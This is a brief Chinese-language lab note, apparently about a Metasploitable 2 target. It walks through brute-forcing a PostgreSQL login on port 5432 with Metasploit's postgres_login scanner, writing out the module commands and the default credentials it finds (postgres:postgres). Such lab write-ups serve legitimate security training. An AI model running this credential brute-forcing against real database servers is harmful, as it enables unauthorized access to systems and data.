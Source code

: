 # 5432_postgresql

使用msf进行爆破

> search postgres_login

![image-20210319154138755](../../image/meteaspolitale2/image-20210319154138755.png)

选择模块脚本

> use auxiliary/scanner/postgres/postgres_login

设置目标靶机

> set RHOSTS 10.10.10.6

设置线程

> set THREADS 16

![image-20210319154216873](../../image/meteaspolitale2/image-20210319154216873.png)

执行

> exploit

![image-20210319154239154](../../image/meteaspolitale2/image-20210319154239154.png)

得到用户名密码

> postgres:postgres

是默认密码

客户端登录

![image-20210319154401759](../../image/meteaspolitale2/image-20210319154401759.png)

使用图形化登录

![image-20210319154807173](../../image/meteaspolitale2/image-20210319154807173.png)